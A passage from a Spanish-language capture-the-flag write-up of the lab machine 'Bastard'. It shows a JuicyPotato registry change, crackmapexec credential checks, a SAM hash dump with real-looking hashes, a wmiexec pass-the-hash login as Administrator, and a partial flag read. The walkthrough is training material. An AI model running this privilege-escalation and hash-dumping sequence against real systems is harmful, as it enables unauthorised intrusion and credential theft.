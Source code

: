 ```bash
jp.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

Ejecutamos `cme` para verificar si tenemos un `Pwn3d!` en los resultados 

```bash
cme smb 127.0.0.1 -u 'bastiant1c' -p 'bast1ant1c!'
```

```bash
#OUTPUT
SMB         127.0.0.1       445    BASTARD          [*] Windows Server 2008 R2 Datacenter 7600 (name:BASTARD) (domain:Bastard) (signing:False) (SMBv1:True)
SMB         127.0.0.1       445    BASTARD          [+] Bastard\bastiant1c:bast1ant1c! (Pwn3d!)
```

Dumpeamos los hashes de los usuarios de la máquina víctima

```bash
cme smb 127.0.0.1 -u 'bastiant1c' -p 'bast1ant1c!' --sam
```

```bash
#OUTPUT
SMB         127.0.0.1       445    BASTARD          [+] Dumping SAM hashes
SMB         127.0.0.1       445    BASTARD          Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3c87620c26302e9f04a756e3301e63a:::
SMB         127.0.0.1       445    BASTARD          Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         127.0.0.1       445    BASTARD          dimitris:1004:aad3b435b51404eeaad3b435b51404ee:57544bb8930967eee7f44d46f8bfe59d:::
```

Ejecutamos `wmiexec.py` para acceder a una consola interactiva como el usuario Administrator

```bash
wmiexec.py WORGROUP/Administrator@10.10.10.9 -hashes :d3c87620c26302e9f04a756e3301e63a
```

```bash
#OUTPUT
C:\>whoami
bastard\administrator 
```

¡Listo! Logramos una shell con un usuario administrador.

## FLAGS

Lo único que nos queda es leer las banderas de user y root. Pueden ver la flag con `type`, pero para hacerlo más retador solo dejaré los primeros 10 caracteres de la flag. 

```bash
#USER
cd C:\
dir /r/s user.txt
C:\Users\dimitris\Desktop\user.txt
set /P user=<"C:\Users\dimitris\Desktop\user.txt"
echo.%user:~0,10%
ba22fde193
```
